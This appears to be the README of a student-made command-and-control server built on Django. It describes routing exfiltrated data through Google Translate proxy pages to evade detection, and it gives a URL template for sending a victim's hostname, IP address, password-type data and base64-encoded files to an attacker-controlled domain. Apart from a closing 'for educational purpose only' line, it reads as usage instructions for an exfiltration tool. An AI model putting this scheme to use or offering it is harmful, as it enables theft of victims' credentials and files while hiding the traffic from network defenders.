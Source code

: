 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<hostname>/<ip>/<data_type>/<?file_type>/<data>/``
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``file_type`` is a flag to know if the exfiltrated data was a file or a string. It allows the admin dashboard to know if it has to decode the received data or not. **(OPTIONAL)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded  automatically on the admin dashboard.

You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.
# FOR EDUCATIONAL PURPOSE ONLY
